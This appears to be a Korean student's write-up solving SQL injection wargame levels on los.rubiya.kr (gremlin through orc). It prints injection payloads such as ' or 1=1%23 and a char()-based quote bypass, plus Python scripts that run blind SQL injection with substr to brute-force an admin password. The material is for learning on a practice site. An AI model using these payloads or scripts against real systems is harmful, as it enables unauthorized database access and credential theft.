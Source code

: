 ## 수업내용 떠올리기

1. url 뒤에 ?를 붙여서 query 에 내용을 넣을 수 있음(ex : ~~.php?id=admin)
2. query에서 #으로 뒷내용 주석화 시킬수있음
3. 따옴표를 사용할 수 없을때는 char(x,x,x,x)등 함수 이용
4. url encoding


***

## rubiya 사이트 난이도별 풀이

* gremlin
    * ```php
      if($result['id']) solve("gremlin");
      ```
      이 구문을 통해서 문제를 해결하는데에 pw는 상관없다는걸 알 수 있다.
      그렇기에 'id'를 TRUE로 만들어 버리면 된다. 즉 id를 요구하는 구문에
      ```
      ?id=' or 1=1%23
      ```
      를 inject해서 id자체를 TRUE로 만든 뒤 뒷부분을 #(%23) 으로 날려버리면 해결!
* cobolt
    * ```php
      if($result['id'] == 'admin') solve("cobolt");
      ```
      이 구문을 통해서 id가 admin이기만 하면 풀리는 것을 알 수 있다.
      ```
      ?id=admin'%23
      ```
      하면 풀린다. 추가로 수업에서 배운 내용으로
      ```
      ?id=' or 1=1%23
      ```
      을 inject 하면 elseif 구문으로 넘어간다.

      근데 왜 Hello {$result['id']} 에서 Hello rubiya가 나오는지는 모르겠다.
* goblin
    * ```php
      if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
      if($result['id'] == 'admin') solve("goblin");
      ```
      다옴표를 쓰지 말고 id를 admin으로 만들라고 한다.

      수업때 배운 char() 함수를 이용하면
      ```
      ?no=2 or id=char(97,100,109,105,110)
      ```
      을 삽입하여 문제를 해결한다. 
      
      여기서 no를 2로 한 이유는 사실 나도 잘 모르지만

      아마도 id=guest 이면서 no=1에 해당하는 데이터가 있어서 그 뒤 or까지 안넘어가는 것 같다. 
    
***

## orc(과제)
blind sql을 이용해서 내가 제시한 조건이 true 인지 false인지 판단한다.

이걸 이용해서 true 인 조건들을 취합하여 문제를 해결한다.
```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```
이걸 보니까 지금까지처럼 id까지 맞추고 pw부분을 주석처리해서 날려버리는 방식이 아니라 진짜로 pw를 알아내야하는 것 같다.

처음부터 끝까지 brute force를 사용하는것도 가능하겠지만 10년도 더 된 내 컴퓨터가 감당하지 못할것같기 때문에 pw의 길이부터 알아내보자.
```
?pw=jnj' or 1=1%23
```
을 해보니까 hello admin이 나온다. 1=1%23부분을 이용해서 pw의 길이를 알아내보자.
```
?pw=jnj' or length(pw)=X%23
```
노가다 해보니까 pw의 길이는 4였다.

<mark>근데 이상한 점은, pw의 길이를 8로 입력했을때도 Hello admin이 출력되었다는 것이다.</mark>

일단은 제쳐두고 pw의 길이를 4라고 가정한 후 풀어보았다.

이제 각각의 자리를 substr을 이용해서 알아내보자.

[인용](https://girrr.tistory.com/93)(https://girrr.tistory.com/93)

이 사이트는 강사님이 주신 사이트인데, 여기나온 방법대로는 파이썬에서 오류가 발생해서 

[인용](https://jaeseokim.tistory.com/26)(https://jaeseokim.tistory.com/26)

사이트를 인용하였다.

```python
import requests

url='https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php'
cookies={'PHPSESSID':'내쿠키'}
injection="' or 1=1#"
params={'id':injection}
response=requests.get(url,params=params,cookies=cookies)
print(response.text)
```

gremlin으로 테스트 해보니 성공하였다. 

길이가 4인것은 알고있으니 substr을 이용해 각 자리의 비밀번호를 알아내보기로 하자.
```python
import requests

# chr(32) 에서 chr(126) 까지만 테스트 해 보면 될 것 같다.
# chr(32) 과 chr(126) 사이에 모든 특수문자와 영어대소문자가 포함되어있기 때문이다.
url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies={'PHPSESSID':'내쿠키'}
for i in range(1,5):
    for passkey in range(32,126):
        injection="jnj' or substr(pw,"+str(i)+",1)='"+chr(passkey)+"'#"
        params={'pw':injection}
        response=requests.get(url,params=params,cookies=cookies)
        if "Hello admin" in response.text:
            print(chr(passkey))
            break
```
해당 코드를 돌렸더니 비밀번호는 095A 가 나왔다.

근데 정답이 아니었다. 여기서 멘탈이 한번 나갔다. 아까 제쳐두었던 부분이 문제가된것 같았다.

이유을 찾기위해 인터넷 검색을 해보다 보니까 sql에서는 and연산자가 or 연산자보다 우선시 되어 계산된다는 것을 알게 되었다.

우리의 쿼리는
```
select id from prob_orc where id='admin' and pw='' or substr(pw,1,1)=0#'
```
이것이기 때문에 id가 무엇인가에는 관계 없이 그저 length(pw)=8의 참 거짓 여부만 참조한다.

아마 내 추측으로는, 이 데이터베이스 속에 admin이 아닌 다른 계정또한 존재하며 이것을 피해가기 위해서는 'id=admin'을 and 문과 엮어 확실히 id가 admin일때의 pw를 구해내야 한다는 것이었다.

그래서 수정된 나의 파이썬 코드는
```python
import requests

# chr(32) 에서 chr(126) 까지만 테스트 해 보면 될 것 같다.
# chr(32) 과 chr(126) 사이에 모든 특수문자와 영어대소문자가 포함되어있기 때문이다.
url='https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookies={'PHPSESSID':'내 쿠키'}
for i in range(1,9):
    for passkey in range(32,126):
        injection="jnj' or id='admin' and substr(pw,"+str(i)+",1)='"+chr(passkey)+"'#"
        params={'pw':injection}
        response=requests.get(url,params=params,cookies=cookies)
        if "Hello admin" in response.text:
            print(chr(passkey))
            break
```
이를 통해 알게된 pw는 095A9852이다.

근데 또 안됐다. ???????

대문자 소문자 문제였다. 진짜 pw는 095a9852이다.